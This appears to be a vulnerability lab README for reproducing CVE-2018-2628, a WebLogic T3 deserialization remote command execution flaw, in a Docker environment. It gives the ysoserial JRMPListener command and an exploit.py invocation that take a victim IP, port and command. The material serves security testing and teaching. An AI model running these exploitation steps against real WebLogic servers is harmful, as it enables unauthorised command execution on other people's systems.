

Weblogic WLS Core Components Deserialization Remote Command Execution (CVE-2018-2628)¶
Oracle Weblogic Server is a popular enterprise application server that provides a wide range of features for building and deploying enterprise applications.
In Oracle's April 2018 patch, a deserialization vulnerability in Weblogic Server WLS Core Components was fixed (CVE-2018-2628). This vulnerability can be triggered through the T3 protocol, allowing unauthorized users to execute arbitrary commands on the remote server.
Reference links:
- http://www.oracle.com/technetwork/security-advisory/cpuapr2018-3678067.html
- http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA
- https://github.com/tdy218/ysoserial-cve-2018-2628
Environment Setup¶
Execute the following command to start Weblogic 10.3.6.0:
docker compose up -d
Wait for the environment to start (depending on your machine, it might take a while), then visit http://your-ip:7001/console to initialize the environment.
Vulnerability Reproduce¶
First, download ysoserial and start a JRMP Server:
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
Where [command] is the command you want to execute, and [listen port] is the port that the JRMP Server listens on.
Then, use the exploit.py script to send a packet to the target Weblogic (http://your-ip:7001):
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
Where [victim ip] and [victim port] are the IP and port of the target weblogic, [path to ysoserial] is the local path to ysoserial, [JRMPListener ip] and [JRMPListener port] are the IP address and port of the JRMP Server started in step 1. [JRMPClient] is the class to execute JRMPClient, the optional values are JRMPClient or JRMPClient2.
After exploit.py is executed, run docker compose exec weblogic bash to enter the container, and you can see that /tmp/success has been successfully created.
